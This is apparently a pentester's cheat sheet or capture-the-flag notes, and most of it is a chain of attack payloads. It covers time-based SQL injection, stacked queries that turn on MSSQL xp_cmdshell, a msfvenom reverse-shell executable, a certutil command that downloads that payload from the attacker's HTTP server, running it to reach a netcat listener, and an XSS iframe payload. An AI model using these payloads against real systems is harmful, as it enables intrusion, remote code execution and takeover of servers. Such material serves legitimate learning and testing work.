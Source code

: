 ### Time Based Return

```
' UNION SELECT SLEEP(5);--
```
Same as Boolean Return except when the SLEEP(5) function is hit - the return is equal to TRUE
```
' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```
will sleep if the database name starts with the letter "u"

## xp_cmdshell

**xp_cmdshell** is a system-extended stored procedure in **Microsoft SQL Server** that enables the execution of operating system commands and programs from within SQL Server.

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

~~~
http://10.10.39.50/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
~~~

Generate Payload WIndows MSSQL
```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```
Start a Python HTTP Server
```shell-session
python3 -m http.server 8000
```

~~~
http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
~~~
The above SQL statement will call **certutil** to download the **reverse.exe** file from our Python HTTP server and save it to the Windows temp directory for later use.

Start a netcat Listener
```shell-session
nc -lnvp 4444
```
Now, we can run one final stacked query to execute the **reverse.exe** file we previously saved in the `C:\Windows\Temp` directory:
```
http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --```
```

## XSS 
```HTML
	<iframe src="javascript:alert(`xss`)"> 
```
	